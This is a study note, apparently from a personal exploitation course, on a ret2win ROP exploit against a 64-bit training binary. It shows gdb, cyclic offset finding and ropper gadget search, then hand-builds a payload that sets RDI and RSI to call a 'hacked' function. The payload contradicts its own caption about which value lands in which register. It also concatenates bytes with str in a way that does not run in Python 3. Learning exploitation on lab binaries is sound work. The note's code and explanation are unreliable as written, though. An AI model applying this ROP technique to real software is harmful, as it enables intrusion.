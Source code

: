 [[Binary Exploitation/03-04 Ret2Win/04 Functions parameters/x64/Source Code|Source Code]] 

### Basic File checks

1. File -> `./ret2win_params: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c9ab2d6786356596c407f942908f9078b156d4d1, for GNU/Linux 3.2.0, not stripped`
2. checksec ->
```python
[*] '/root/binary_exploitation/04/64/ret2win_params'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

### Manual Exploitation

We first need to find the hacked function address

```python
gdb-pwndbg ./ret2win_params
info functions
```

Result:

```python
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  printf@plt
0x0000000000401050  __isoc99_scanf@plt
0x0000000000401060  _start
0x0000000000401090  _dl_relocate_static_pie
0x00000000004010a0  deregister_tm_clones
0x00000000004010d0  register_tm_clones
0x0000000000401110  __do_global_dtors_aux
0x0000000000401140  frame_dummy
0x0000000000401142  hacked
0x0000000000401190  register_name
0x00000000004011d7  main
0x00000000004011f0  __libc_csu_init
0x0000000000401250  __libc_csu_fini
0x0000000000401254  _fini
```

Now the function hacked address is `0x0000000000401142`

Next we need the RIP offset 

In 64 bit application there won't be a EIP and all the parameters will not be on the stack like previously

Now the RIP offset can be found like this

```python
cylcic 100
gdb-pwndbg ./ret2win_params
```

Result:

```python
*RAX  0x6f
*RBX  0x7fffffffde08 —▸ 0x7fffffffe1a4 ◂— '/root/binary_exploitation/04/64/ret2win_params'
 RCX  0x0
 RDX  0x0
*RDI  0x7fffffffd770 —▸ 0x7ffff7e1ae70 (funlockfile) ◂— mov rdi, qword ptr [rdi + 0x88]
*RSI  0x4052a0 ◂— 'Hi there, aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
*R8   0x4020a0 ◂— 0x6568742069480073 /* 's' */
*R9   0x73
 R10  0x0
*R11  0x202
 R12  0x0
*R13  0x7fffffffde18 —▸ 0x7fffffffe1d3 ◂— 0x5245545f5353454c ('LESS_TER')
 R14  0x0
*R15  0x7ffff7ffd020 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
*RBP  0x6161616161616163 ('caaaaaaa')
*RSP  0x7fffffffdce8 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
*RIP  0x4011d6 (register_name+70) ◂— ret
```

Now as you can see there is no cyclic pattern letters in the RIP that's because in 64 bit it checks if it is a valid address if not then it puts it into the RSP so in order to find the offset we need to do `cyclic -l daaaaaaa` Now we use the first 8 because it is 64 bit

Result:

```python
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
```

Now in 64 bit the parameters aren't stored in the stack so you need to use rop objects

we can find this using a tool called Ropper

we need to replace the value in the `RSI` and the `RDI` parameters

So we need to find a `pop_rdi` and `pop_rsi` objects

we can do this using 

```python
ropper --file ./ret2win_params --search=pop
```

Result:

```python
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: ./ret2win_params
0x0000000000401244: pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000401246: pop r13; pop r14; pop r15; ret;
0x0000000000401248: pop r14; pop r15; ret;
0x000000000040124a: pop r15; ret;
0x0000000000401243: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000401247: pop rbp; pop r14; pop r15; ret;
0x0000000000401129: pop rbp; ret;
0x000000000040124b: pop rdi; ret;
0x0000000000401249: pop rsi; pop r15; ret;
0x0000000000401245: pop rsp; pop r13; pop r14; pop r15; ret;
```

Now we can make the manual exploit

```python
24 * b'A'  + '\x4b\x12\x40\x00\x00\x00\x00\x00' + '\xef\xbe\xad\xde\xef\xbe\xad\xde' + '\x49\x12\x40\x00\x00\x00\x00\x00' + '\xbe\xba\xde\xc0\xbe\xba\xde\xc0' + '\x00\x00\x00\x00\x00\x00\x00\x00'+ '\x42\x11\x40\x00\x00\x00\x00\x00'
```

`Padding to the EIP + pop_rdi address from ropper + 0xc0debabec0debabe in little Indian format + pop_rsi address from ropper + 0xdeadbeefdeadbeef + padding for the r15 + Hacked Function Address`

When we look at the thing for pop_rsi we see that it pop another thing as well
```python
0x0000000000401249: pop rsi; pop r15; ret;
```

Now let's put it into an automated script

[[Binary Exploitation/03-04 Ret2Win/04 Functions parameters/x64/Python Script|Python Script]] 